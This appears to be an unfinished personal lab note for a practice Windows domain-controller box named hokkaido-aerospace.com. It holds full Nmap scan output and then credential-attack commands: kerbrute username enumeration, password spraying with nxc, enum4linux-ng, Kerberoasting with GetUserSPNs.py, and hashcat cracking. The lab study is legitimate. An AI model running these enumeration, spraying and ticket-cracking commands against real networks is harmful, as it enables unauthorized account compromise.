




# Host:
```

```

# Nmap
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-01 10:06:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-07T13:54:18
| Not valid after:  2024-12-06T13:54:18
| MD5:   fd8f:1b08:1ee3:af12:e450:0c81:e458:9a0b
|_SHA-1: 9b94:20e0:ea8b:7d6d:c1fa:4976:5547:cd45:3115:3414
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-07T13:54:18
| Not valid after:  2024-12-06T13:54:18
| MD5:   fd8f:1b08:1ee3:af12:e450:0c81:e458:9a0b
|_SHA-1: 9b94:20e0:ea8b:7d6d:c1fa:4976:5547:cd45:3115:3414
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.212.40:1433: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-23T05:26:30
| Not valid after:  2054-03-23T05:26:30
| MD5:   3057:0fb5:1fc4:3d45:26fc:815e:7d4d:a41b
|_SHA-1: 22ab:449c:e9db:8915:fce3:a486:7c20:0156:a58b:b1ff
| ms-sql-info: 
|   192.168.212.40:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-07-01T10:07:12+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-07T13:54:18
| Not valid after:  2024-12-06T13:54:18
| MD5:   fd8f:1b08:1ee3:af12:e450:0c81:e458:9a0b
|_SHA-1: 9b94:20e0:ea8b:7d6d:c1fa:4976:5547:cd45:3115:3414
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-07T13:54:18
| Not valid after:  2024-12-06T13:54:18
| MD5:   fd8f:1b08:1ee3:af12:e450:0c81:e458:9a0b
|_SHA-1: 9b94:20e0:ea8b:7d6d:c1fa:4976:5547:cd45:3115:3414
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-07-01T10:07:00+00:00
|_ssl-date: 2024-07-01T10:07:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Issuer: commonName=dc.hokkaido-aerospace.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T10:02:48
| Not valid after:  2024-12-30T10:02:48
| MD5:   bcb2:8110:a202:c8c9:8f4f:b026:37eb:1227
|_SHA-1: a08c:7b4f:aa05:f810:1cc5:44a3:4894:6478:8e57:69cb
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
8531/tcp  open  unknown
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49773/tcp open  msrpc         Microsoft Windows RPC
58538/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.212.40:58538: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   192.168.212.40:58538: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 58538
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-23T05:26:30
| Not valid after:  2054-03-23T05:26:30
| MD5:   3057:0fb5:1fc4:3d45:26fc:815e:7d4d:a41b
|_SHA-1: 22ab:449c:e9db:8915:fce3:a486:7c20:0156:a58b:b1ff
|_ssl-date: 2024-07-01T10:07:12+00:00; 0s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
UDP?

Kerbrute:
```
kerbrute userenum --dc dc.hokkaido-aerospace.com -d hokkaido-aerospace.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


We have users

Now put in a list and spray users with users as password:
```
nxc smb hokkaido-aerospace.com -u users.txt -p users.txt
```


Now using enum4linux:
```
enum4linux-ng 192.168.218.40 -u info -p users.txt
```


We get more users.

Now kerberoasting with creds of info user:
```
GetUserSPNs.py hokkaido-aerospace.com/info:info -request
```

Now cracking it:
```
hashcat hashes.txt ~/Downloads/rockyou.txt -r ~/Downloads/best64.rule 
```
It does'nt work.

Now checking [[PG Practice/Apex/445]]